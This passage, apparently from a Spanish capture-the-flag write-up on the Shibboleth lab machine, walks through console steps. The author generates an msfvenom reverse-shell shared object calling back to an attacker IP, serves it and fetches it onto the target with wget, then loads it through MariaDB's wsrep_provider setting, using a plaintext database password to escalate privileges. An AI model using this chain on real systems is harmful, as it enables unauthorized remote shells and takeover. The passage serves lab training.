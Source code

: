 ```console
p3ntest1ng:~$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=9999 -f elf-so -o exploit.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: exploit.so
```

Levantamos un servidor http con python3 en nuestra máquina y descargamos el exploit desde la máquina Shibboleth con wget...

```console
p3ntest1ng:~$ sudo python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.124 - - [12/Feb/2022 15:13:53] "GET /exploit.so HTTP/1.1" 200 -
```

```console
ipmi-svc@shibboleth:/etc/zabbix$ mkdir /tmp/any0ne
ipmi-svc@shibboleth:/etc/zabbix$ cd !$
ipmi-svc@shibboleth:/tmp/any0ne$ wget http://10.10.16.29/exploit.so
--2022-02-12 14:31:20--  http://10.10.16.29/exploit.so
Connecting to 10.10.16.29:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 476 [application/octet-stream]
Saving to: ‘exploit.so’

exploit.so          100%[===================>]     476  --.-KB/s    in 0.04s   

2022-02-12 14:31:21 (11.1 KB/s) - ‘exploit.so’ saved [476/476]
```

Nos conectamos a MySQL tal y como nos indican en la explicación del exploit:
> mysql -u root -p -h 127.0.0.1 -e 'SET GLOBAL wsrep_provider="/tmp/any0ne/exploit.so";'

Sin embargo esto nos da error porque no tenemos permisos, tenemos que realizar este paso como el usuario **`zabbix`**
Nos ponemos en escucha en nuestra máquina con netcat antes de realizar este paso.

```console
ipmi-svc@shibboleth:/tmp/any0ne$ mysql -u zabbix -p
Enter password: bloooarskybluh
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 89577
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> SET GLOBAL wsrep_provider="/tmp/any0ne/exploit.so";
ERROR 2013 (HY000): Lost connection to MySQL server during query
MariaDB [(none)]> 
```
